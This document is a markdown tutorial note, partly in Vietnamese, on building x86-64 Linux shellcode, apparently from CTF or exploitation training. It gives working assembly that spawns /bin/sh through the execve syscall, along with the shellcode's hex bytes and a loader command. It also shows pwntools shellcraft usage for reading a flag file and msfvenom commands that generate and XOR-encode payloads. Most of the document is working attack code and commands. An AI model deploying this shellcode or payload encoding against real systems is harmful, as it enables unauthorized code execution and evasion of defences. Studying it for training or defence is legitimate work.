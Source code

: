# [+] Creating sellcode
---
```bash
[!bash!]$ man -s 2 execve

int execve(const char *pathname, char *const argv[], char *const envp[]);
```

Example: ``execve("/bin//sh", ["/bin//sh"], NULL)``

So, we'll set our arguments as:

- rax -> 59 (execve syscall number)
- rdi -> ['/bin//sh'] (pointer to program to execute)
- rsi -> ['/bin//sh'] (list of pointers for arguments)
- rdx -> NULL (no environment variables)

```shell
_start:
    mov al, 59          ; execve syscall number
    xor rdx, rdx        ; set env to NULL
    push rdx            ; push NULL string terminator
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack 
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push rdx            ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    syscall
```

**/bin/sh**
```shell
python3 loader.py 'b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05'
```

# [+] Shellcraft
---
Hãy bắt đầu với các công cụ thông thường của chúng ta, pwntools, và sử dụng thư viện shellcraft của nó, thư viện này tạo ra shellcode cho các syscall khác nhau.
```shell
pwn shellcraft -l 'amd64.linux'
```

Example: Cat flag.txt in dir /bin/flag.txt
```shell
pwn shellcraft amd64.linux.cat "/bin/flag.txt"
```


# [+] Msfvenom
---
```shell
msfvenom -p 'linux/x64/exec' CMD='<COMMAND>' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'
```
Nếu có một shellcode tùy chỉnh mà chúng ta đã viết, chúng ta cũng có thể sử dụng msfvenom để mã hóa nó, bằng cách ghi các byte của nó vào một tệp rồi chuyển nó tới msfvenom với -p -, như sau:
```bash
$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05'))" > shell.bin
$ msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```




